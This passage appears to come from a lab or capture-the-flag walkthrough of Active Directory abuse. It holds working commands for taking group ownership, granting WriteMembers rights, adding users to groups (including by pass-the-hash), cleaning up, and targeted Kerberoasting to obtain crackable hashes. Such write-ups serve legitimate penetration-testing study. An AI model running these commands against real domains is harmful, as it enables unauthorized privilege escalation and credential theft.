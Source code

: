 ```bash
owneredit.py -action write -owner 'attacker' -target 'victim' 'DOMAIN'/'USER':'PASSWORD'
```

**Modifying the rights**

To abuse ownership of a group object, you may grant yourself the `AddMember` permission.

Impacket's dacledit can be used for that purpose (cf. "grant rights" reference for the link).

```bash
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'controlledUser' -target-dn 'groupDistinguidedName' 'domain'/'controlledUser':'password'
```

**Adding to the group**

You can now add members to the group.

Use samba's net tool to add the user to the target group. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line:

```bash
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

It can also be done with pass-the-hash using [pth-toolkit's net tool](https://github.com/byt3bl33d3r/pth-toolkit). If the LM hash is not known, use 'ffffffffffffffffffffffffffffffff'.

```bash
pth-net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

	Finally, verify that the user was successfully added to the group:

```bash
net rpc group members "TargetGroup" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

**Cleanup**

Impacket's dacledit can be used for that purpose (cf. "grant rights" reference for the link).

```bash
dacledit.py -action 'remove' -rights 'WriteMembers' -principal 'controlledUser' -target-dn 'groupDistinguidedName' 'domain'/'controlledUser':'password'
```

### Management_Svc User (GenericWrite)

**Targeted Kerberoast**

A targeted kerberoast attack can be performed using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast).

```bash
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```

The tool will automatically attempt a targetedKerberoast attack, either on all users or against a specific one if specified in the command line, and then obtain a crackable hash. The cleanup is done automatically as well.
